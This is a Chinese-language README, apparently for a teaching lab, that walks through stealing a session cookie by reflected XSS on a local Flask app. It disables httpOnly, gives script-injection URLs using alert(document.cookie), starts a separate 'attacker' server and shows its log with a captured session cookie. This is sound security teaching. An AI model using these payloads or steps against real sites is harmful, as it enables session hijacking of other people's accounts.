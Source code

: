 # XSS窃取cookie的演示

## 参考
- [XSS常见攻击与防御](https://zhuanlan.zhihu.com/p/30475175)
- [injecting-flask](https://nvisium.com/blog/2015/12/07/injecting-flask.html)
- [利用反射型XSS漏洞，模拟获取登录账户的Cookie](https://www.jianshu.com/p/0f5974c386cb)


## 放开 httpOnly
为了方便演示XSS攻击，需要被攻击网站 `http://localhost:8080` 降低安全级别，放开httpOnly，这样可以让客户端浏览器的JS读取cookie，方便做XSS攻击

```
$ cat flask_playground/__init.py__
...
app.config['SESSION_COOKIE_HTTPONLY'] = False
...

```

## 启动 flask_playground/watchlist

```
$ cd flask_playground
$ flask run -h 0.0.0.0  -p 8080

```

## 简单的尝试，就能知道相关（被攻击）URL是否有 XSS漏洞
所有提交数据的地方都有可能存在XSS，可以用最简单脚本进行测试：

```
### 浏览器访问  
http://localhost:8080/hello-template-injection?name=<script>alert("反射型XSS攻击")</script>
```

alert执行生效（浏览器有弹窗），就说明该URL有XSS漏洞


## 用户在（被攻击）网站flask_playground/watchlist登录

```
### 浏览器访问 /login，并登录； 确认登录成功；
http://localhost:8080/login
```

通过chrome浏览器，可以看到有 "session" 这个cookie；


## 从有XSS漏洞的（被攻击）URL获取cookie
确保`用户在（被攻击）网站flask_playground/watchlist登录`

通过注入JS脚本，就能获取cookie
```
### 浏览器访问
http://localhost:8080/hello-template-injection?name=<script>alert(document.cookie)</script>
```

浏览器弹窗中显示cookie；
如果无法获取"session"这个cookie，请确认以上 httpOnly设置是否生效；

## 启动（带攻击性）网站服务 hacdtest

```
$ cd hacktest
$ export FLASK_ENV=development; export FLASK_APP=hacktest; flask run -h 0.0.0.0  -p 8001 
```


## 发布（带攻击性的）URL，获取cookie

攻击者在公网发布了（带攻击性）URL `http://localhost:8001/`  

确保`用户在（被攻击）网站flask_playground/watchlist登录`

该网站用户无意点击进入（带攻击性）URL
```
### 浏览器访问
http://localhost:8001/
```


观察（带攻击性）网站服务 hacdtest的日志，此时已经获取到被攻击）网站用户的cookie

```
...
[2020-06-12 15:46:07,502] DEBUG in __init__: hack cookie...
127.0.0.1 - - [12/Jun/2020 15:46:07] "GET / HTTP/1.1" 200 -
[2020-06-12 15:46:07,597] DEBUG in __init__: session=.eJwljkEOwzAIBP_COQdDMDb5TIUxqL0mzanq32upmuvOaj7wyDOuJxzv844NHq8JB7RotYUad7FY9ES1iCFFKjXaY6BiJHHgFHH0NB80rWV21-JC6SxU09CZTJY3eOleSkcaa6HReZKuh1FkZ22u1ZGyqjsRbHBfcf5jEL4__5svnQ.XuMINg.6btOKnvtscqHU9Oqe30zZVojaks

...

```

